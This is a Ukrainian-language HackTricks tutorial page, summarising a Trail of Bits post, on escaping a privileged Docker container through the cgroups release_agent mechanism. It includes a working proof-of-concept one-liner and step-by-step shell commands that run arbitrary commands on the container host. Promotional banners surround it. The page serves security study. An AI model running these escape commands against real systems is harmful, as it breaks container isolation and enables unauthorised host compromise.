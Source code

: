 # Втеча з контейнера Docker через використання release\_agent cgroups

{% hint style="success" %}
Вивчайте та вправляйтеся в хакінгу AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та вправляйтеся в хакінгу GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакінг-прийоми, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **та** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub.**

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) - це пошуковик, який працює на **темному вебі** та пропонує **безкоштовні** функціональні можливості для перевірки, чи були **компанія або її клієнти скомпрометовані** **шкідливими програмами-крадіями**.

Основною метою WhiteIntel є боротьба з захопленням облікових записів та атаками вірусів-вимагачів, що виникають внаслідок шкідливих програм, які крадуть інформацію.

Ви можете перевірити їх веб-сайт та спробувати їхній двигун **безкоштовно** за посиланням:

{% embed url="https://whiteintel.io" %}

***

**Для отримання додаткових відомостей дивіться** [**оригінальний допис у блозі**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** Це лише краткий огляд:

Оригінальний PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Доказ концепції (PoC) демонструє метод використання cgroups шляхом створення файлу `release_agent` та спричинення його виклику для виконання довільних команд на контейнерному хості. Ось розбір кроків, які беруть участь:

1. **Підготовка середовища:**
* Створюється каталог `/tmp/cgrp` для використання як точка монтування cgroup.
* Контролер cgroup RDMA монтується до цього каталогу. У випадку відсутності контролера RDMA рекомендується використовувати контролер cgroup `memory` як альтернативу.
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **Налаштування дочірнього Cgroup:**
* Дочірній cgroup з назвою "x" створюється в монтуємому каталозі cgroup.
* Сповіщення увімкнені для cgroup "x", записуючи 1 у його файл notify\_on\_release.
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **Налаштування агента вивільнення:**
* Шлях контейнера на хості отримується з файлу /etc/mtab.
* Потім файл release\_agent cgroup налаштовується на виконання скрипту з назвою /cmd, розташованого за отриманим шляхом хоста.
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **Створення та налаштування сценарію /cmd:**
* Сценарій /cmd створюється всередині контейнера та налаштовується для виконання ps aux, перенаправляючи вивід у файл з назвою /output у контейнері. Вказується повний шлях до /output на хості.
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **Запуск атаки:**
* Процес запускається у дитячому cgroup "x" і негайно припиняється.
* Це спричиняє виконання `release_agent` (сценарій /cmd), який виконує ps aux на хості та записує вивід до /output у контейнері.
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) - це пошуковик, який працює на **темному вебі** і пропонує **безкоштовні** функціональні можливості для перевірки, чи були **компанія або її клієнти** **пошкоджені** **викрадачами вірусів**.

Основна мета WhiteIntel - це боротьба з захопленням облікових записів та атаками від шифрувального вірусу, що виникають внаслідок вірусів, які крадуть інформацію.

Ви можете перевірити їх веб-сайт та спробувати їхній двигун **безкоштовно** за посиланням:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
